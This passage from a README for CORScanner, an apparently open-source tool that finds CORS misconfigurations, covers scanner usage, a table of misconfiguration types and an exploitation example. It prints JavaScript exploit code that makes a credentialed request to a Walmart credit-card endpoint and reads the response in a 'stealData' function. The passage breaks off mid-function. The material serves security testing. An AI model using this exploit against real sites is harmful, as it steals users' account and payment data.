 ``python cors_scan.py -i top_100_domains.txt -t 100``

* To enable proxy for CORScanner, use -p

```python cors_scan.py -u example.com -p http://127.0.0.1:8080```

To use socks5 proxy, install PySocks with `pip install PySocks`

```python cors_scan.py -u example.com -p socks5://127.0.0.1:8080```

* To list all the basic options and switches use -h switch:

```python cors_scan.py -h```

## Misconfiguration types
This tool covers the following misconfiguration types:

Misconfiguration type    | Description
------------------------ | --------------------------
Reflect_any_origin       | Blindly reflect the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.
Prefix_match             | `wwww.example.com` trusts `example.com.evil.com`, which is an attacker's domain.
Suffix_match             | `wwww.example.com` trusts `evilexample.com`, which could be registered by an attacker.
Not_escape_dot           | `wwww.example.com` trusts `wwwaexample.com`, which could be registered by an attacker.
Substring match          | `wwww.example.com` trusts `example.co`, which could be registered by an attacker.
Trust_null               | `wwww.example.com` trusts `null`, which can be forged by iframe sandbox scripts
HTTPS_trust_HTTP         | Risky trust dependency, a MITM attacker may steal HTTPS site secrets
Trust_any_subdomain      | Risky trust dependency, a subdomain XSS may steal its secrets
Custom_third_parties     | Custom unsafe third parties origins like `github.io`, see more in [origins.json](./origins.json) file. Thanks [@phackt](https://github.com/phackt)!
Special_characters_bypass| Exploiting browsers’ handling of special characters. Most can only work in Safari except `_`, which can also work in Chrome and Firefox. See more in [Advanced CORS Exploitation Techniques](https://www.corben.io/advanced-cors-techniques/). Thanks [@Malayke](https://github.com/Malayke).
  
Welcome to contribute more.  
  
## Exploitation examples
Here is an example about how to exploit "Reflect_any_origin" misconfiguration on Walmart.com(fixed). Localhost is the malicious website in the video.

Walmart.com video on Youtube:

[![Walmart_CORS_misconfiguration_exploitation](https://github.com/chenjj/CORScanner/raw/master/images/walmart.png)](http://www.youtube.com/watch?v=3abaevsSHXY)

Here is the exploitation code:
```javascript
<script>
    // Send a cross origin request to the walmart.com server, when a victim visits the page.
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //reading response is allowed because of the CORS misconfiguration.
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);
```